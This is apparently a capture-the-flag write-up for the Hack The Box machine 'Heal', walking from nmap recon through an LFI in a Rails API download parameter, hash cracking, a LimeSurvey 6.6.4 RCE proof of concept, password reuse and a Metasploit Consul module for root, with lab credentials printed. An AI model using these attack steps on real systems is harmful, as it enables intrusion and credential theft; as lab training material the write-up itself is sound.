

# Heal

```bash
echo "10.129.196.241 heal.htb api.heal.htb take-survey.heal.htb" | sudo tee -a /etc/hosts
```

# Recon

## Nmap

I performed a simple scan on the Nmap top 3500 ports. I found two open ports :

- 22 for SSH
- 80 for HTTP

```bash
nmap 10.10.11.46 --min-rate 5000 --top-ports 3500
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now I performed a deep scan on these ports.

```bash
nmap 10.10.11.46 --min-rate 5000 -p 22,80 -sV -sC -oN nmap.txt
```

```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 68af80866e617ebf0bea1052d77a943d (ECDSA)
|_  256 52f48df1c785b66fc65fb2dba61768ae (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is a domain name on the website. I added it to the **`/etc/hosts`** file.

```bash
echo "10.10.11.46 heal.htb" | sudo tee -a /etc/hosts
```

## HTTP (80)

The main web page is the login page of a resume builder.



I tried to create an account but ended up with an error.


### Ruby on Rails

I intecepted the request and saw that a request is made to the **`api.heal.htb`** host. I added it to the **`/etc/hosts`** file


I did some vhost fuzzing but couldn’t find another subdomain.

```bash
ffuf -c -w `fzf-wordlists` -u "http://heal.htb" -H "Host: FUZZ.heal.htb" -fs 178
```


The main page of **`api.heal.htb`** is a ruby on rail web page.


After adding the host in the **`/etc/hosts`** file I could create an account and was redirected to this page, where I can build my resume.


### LimeSurvey

I cliked on survey and found another subdomain  : **`take-suvey.heal.htb` .**


I added it to the **`/etc/hosts`** file and I’m redirected to this page.


On **`take-survey.heal.htb`** there is **`LimeSurvey`** which is a statistical survey, polling, and online form creation software.


On limesurvey github page I see that there is an admin page.


I went there and was redirected to a **`LimeSurvey`** login page


# Shell as www-data

## LFI

On the resume I filled the informations and clicked on the button to export as PDF.


I downloaded a file containing the filled informations.


Now I can see what happens on BurpSuite.

Two things happended. First the PDF file was created.


And next an OPTIONS request is made to choose the method to download the file.


Finally a GET request is made to download the file.


An LFI is found on the **`filename`** parameter. 


The request is made on **`api.heal.htb`**, the Ruby on Rails instance. After a few minutes of googling I found this article on Ruby on Rails web pages and database files.

https://dev.to/andreimaxim/the-rails-databaseyml-file-4dm9

I found the location of the database file.


Credentials are found.


I cracked the hash and found the password.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt raph.hash
```


## Limesurvey-6.6.4-RCE

I put these credentials on **`LimeSurvey`** login page.

```bash
Username : ralph
Password : 147258369
```


On the bottom of the page there is the version of LImeSurvey.


A little bit of googling and I found this POC on https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE.


I uploaded and installed the zip file.


Next I Activated the plugin.


Finally I executed the exploit.

```bash
python3 exploit.py http://take-survey.heal.htb/ ralph 147258369 80
```


I got a shell as **`www-data`**.


There are only two users.


# Shell as ron

MySQL database credentials found.


I tested of password reuse. And the user **`ron`** uses the same password.

```bash
Username : ron
Password : AdmiDi0_pA$$w0rd
```


I retrieved the user flag.


# Shell as root

There is something on port **`8500`**.


Port forwarding

```bash
ssh -L 8500:127.0.0.1:8500 ron@heal.htb
```

We’re in front of **`Consul`** which is a service networking solution to automate network configurations. There is also the version.


After a few minutes of googling, I found that there is an exploit on msfconsole.

```bash
use exploit/multi/misc/consul_service_exec
set lhost tun0
set rhost 127.0.0.1
run
```


I retrieve the root flag.

